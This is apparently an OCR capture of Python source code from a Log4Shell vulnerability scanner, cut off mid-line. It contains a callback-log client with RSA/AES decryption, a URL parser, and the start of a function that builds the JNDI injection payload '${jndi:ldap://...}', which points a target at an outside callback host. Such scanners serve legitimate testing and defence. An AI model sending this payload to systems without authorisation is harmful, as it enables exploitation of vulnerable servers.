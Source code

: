   ```python
  
      def pull_logs(self):
          result = []
          protocol = 'http' if args.disable_tls_to_register_dns else 'https'
          url = f"{protocol}://{self.server}/poll?id={self.correlation_id}&secret={self.secret}"
          res = self.session.get(url, headers=self.headers, timeout=30).json()
          aes_key, data_list = res['aes_key'], res['data']
          if data_list is None:
              data_list = []
          for i in data_list:
              decrypt_data = self.__decrypt_data(aes_key, i)
              result.append(self.__parse_log(decrypt_data))
          return result
  
      def __decrypt_data(self, aes_key, data):
          private_key = RSA.importKey(self.private_key)
          cipher = PKCS1_OAEP.new(private_key, hashAlgo=SHA256)
          aes_plain_key = cipher.decrypt(base64.b64decode(aes_key))
          decode = base64.b64decode(data)
          bs = AES.block_size
          iv = decode[:bs]
          cryptor = AES.new(key=aes_plain_key, mode=AES.MODE_CFB,
                            IV=iv, segment_size=128)
          plain_text = cryptor.decrypt(decode)
          return json.loads(plain_text[16:])
  
      def __parse_log(self, log_entry):
          new_log_entry = {"timestamp": log_entry["timestamp"],
                           "host": f'{log_entry["full-id"]}.{self.domain}',
                           "remote_address": log_entry["remote-address"]
                           }
          return new_log_entry
  
  
  def parse_url(url):
      """
      Parses the URL.
      """
  
      # Url: https://example.com/login.jsp
      url = url.replace('#', '%23')
      url = url.replace(' ', '%20')
  
      if ('://' not in url):
          url = str("http://") + str(url)
      scheme = urlparse.urlparse(url).scheme
  
      # FilePath: /login.jsp
      file_path = urlparse.urlparse(url).path
      if (file_path == ''):
          file_path = '/'
  
      return ({"scheme": scheme,
              "site": f"{scheme}://{urlparse.urlparse(url).netloc}",
               "host":  urlparse.urlparse(url).netloc.split(":")[0],
               "file_path": file_path})
  
  
  def scan_url(url, callback_host):
      parsed_url = parse_url(url)
      random_string = ''.join(random.choice(
          '0123456789abcdefghijklmnopqrstuvwxyz') for i in range(7))
      payload = '${jndi:ldap://%s.%s/%s}' % (
  ```